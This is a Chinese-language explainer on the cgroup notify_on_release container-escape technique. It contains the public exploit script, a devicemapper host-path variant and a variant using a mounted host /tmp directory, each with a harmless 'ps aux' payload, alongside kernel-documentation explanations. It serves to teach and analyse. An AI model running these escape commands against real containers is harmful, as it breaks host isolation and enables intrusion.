





# notify_on_release逃逸方式原理

## 公开的EXP
```shell
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
## notify_on_release与cgroup
既然是notify_on_release的方式，首先了解下notify_on_release机制是什么，了解notify_on_release前就需要先了解cgroup，cgroup的官方定义如下：

> cgroups是Linux内核提供的一种机制，这种机制可以根据需求把一系列系统任务及其子任务整合（或分隔）到按资源划分等级的不同组内，从而为系统资源管理提供一个统一的框架。

在Linux中cgroup的实现形式表现为一个文件系统，可以通过mount -t cgroup看到系统cgroup的挂载情况


可以看到cgroup提供了很多子系统包括cpu、devices、blkio等

以memory子系统为例看下每个子系统包含哪些文件


其中memory开头的文件对内存进行控制包括内存使用量，oom之后的行为等等，除此之外主要了解下一下几个和逃逸相关的文件
* cgroup.procs：罗列所有在该cgroup中的TGID（线程组ID），即线程组中第一个进程的PID。该文件并不保证TGID有序和无重复。写一个TGID到这个文件就意味着把与其相关的线程都加到这个cgroup中
* tasks:罗列了所有在该cgroup中任务的TID，即所有进程或线程的ID。该文件并不保证任务的TID有序，把一个任务的TID写到这个文件中就意味着把这个任务加入这个cgroup中，如果这个任务所在的任务组与其不在同一个cgroup，那么会在cgroup.procs文件里记录一个该任务所在任务组的TGID值，但是该任务组的其他任务并不受影响。
* notify_on_release：0或1，表示是否在cgroup中最后一个任务退出时通知运行release agent，默认情况下是0，表示不运行，看下官方对notify_on_release的解释
  > If the notify_on_release flag is enabled (1) in a cgroup, then whenever the last task in the cgroup leaves (exits or attaches to some other cgroup) and the last child cgroup of that cgroup is removed, then the kernel runs the command specified by the contents of the "release_agent" file in that hierarchy's root directory, supplying the pathname (relative to the mount point of the cgroup file system) of the abandoned cgroup.  This enables automatic removal of abandoned cgroups. The default value of notify_on_release in the root cgroup at system boot is disabled(0).  The default value of other cgroups at creation is the current value of their parents' notify_on_release settings. The default value of a cgroup hierarchy's release_agent path is empty.

  可以简单理解为提供了以下功能：
  如果notify_on_release的值被设置为1，cgroup下所有task结束的时候（最后一个进程结束或转移到其他cgroup），那么内核就会运行root cgroup下release_agent文件中的对应路径的文件，这里还提到内核会为要执行的程序提供一个参数，但实际测试中没有发现有参数传递。
  * release_agent：
  > release_agent, can be used to register the pathname of a program that may be invoked when a cgroup in the hierarchy becomes empty
  
  指明release_agent文件内容应该指定一个可执行文件路径名。这个路径名是宿主机的路径名也就是文件的真实路径，不是在容器中看到的路径，通常用于自动化卸载无用的cgroup。并且整个文件只能存在于root cgroup，如果在下层创建release_agent文件会提示Permission denied无法创建
  
## 利用原理
  通过对这几个文件的理解，基本可以理清利用原理
1. 需要一个可写的cgroup,至于用cgroup的哪个子系统也就是-o参数应该是都可以的，直接把root cgroup的notify_on_release设置成1显然是不合理的，因为最后一步还需要移除cgroup下的所有进程，所以创建一个子cgroup然后将子cgroup的notify_on_release置为1就不会对原有设置产生影响
  
2. 需要控制一个文件，这个文件有两个特点：
   * 知道这个文件在宿主机路径
   * 在容器中可以修改这个文件内容和执行权限
  
   如果能够知道容器在宿主机上真实路径就可以满足这一要求，在容器写任意一个文件然后拼接容器的真实路径即可，exp中通过读mtab的方式获取真实路径，这个正则是在docker使用overlay方式作为存储驱动时才可以使用，除了overlay方式外还有devicemapper、vfs等，每种存储方式获取真实路径的方式并不相同，以devicemapper为例读取mtab看到的/dev/mapper/下的路径而非在真实访问用的路径但还是可以通过他构造在宿主机上的路径，devicemapper在宿主机上的目录默认是/var/lib/docker/devicemapper/mnt/[id]/rootfs，通过`sed -n 's/\/dev\/mapper\/docker\-[0-9]*:[0-9]*\-[0-9]*\-\(.*\) \/\(.*\)/\1/p' /etc/mtab`可以获取到对应的id值，最终host_path为:
     ```
   host_path='/var/lib/docker/devicemapper/mnt/'`sed -n 's/\/dev\/mapper\/docker\-[0-9]*:[0-9]*\-[0-9]*\-\(.*\) \/\(.*\)/\1/p' /etc/mtab`'/rootfs'
    ```
  
3. 清空子cgroup下的cgroup.procs中的所有进程，触发release_agent执行写入的命令，这里有一个问题，cgroup.procs看起来和tasks貌似区别不大，可以简单理解成cgroup.procs是进程级别的管理，tasks是进程级别的管理，在实际测试中，修改`sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"`为`sh -c "echo \$\$ > /tmp/cgrp/x/tasks"`也是同样会触发release_agent的
  
## 用处不大的tips
  除了找到容器在宿主机的真实路径外，也是有其他方式的，只满足上面这两个条件很容易可以想到挂载目录，如果以以下方式启动docker
  `docker run -it --cap-add='SYS_ADMIN' -v /tmp:/tmp/host_tmp centos bash`
  宿主机把自己的/tmp目录挂载到容器的/tmp/host_tmp目录，那么就可以借助/tmp/host_tmp完成利用，首先在进入容器时通过mount查看当前容器有哪些挂载
  
可以看到挂载到了/tmp/host_tmp,但是看不到在宿主机上是什么路径


通过`cat /proc/self/mountinfo | grep /tmp/host_tmp`可以确定宿主机的/tmp以rw方式挂载到了/tmp/host_tmp，修改exp如下：
```shell
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "/tmp/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /tmp/host_tmp/cmd
echo "ps aux > /tmp/output" >> /tmp/host_tmp/cmd
chmod a+x /tmp/host_tmp/cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

## 参考文档
1. https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt
2. [cgroups(7) - Linux manual page](https://man7.org/linux/man-pages/man7/cgroups.7.html)
3. [PID/TID/TGID参考](https://www.cnblogs.com/wipan/p/9488318.html)
4. [Docker存储驱动程序](https://docs.docker.com/storage/storagedriver/)
5. [procs 和tasks 的区别](http://linux.laoqinren.net/posts/hierarchy-without-controller-group/#procs-%E5%92%8Ctasks-%E7%9A%84%E5%8C%BA%E5%88%AB)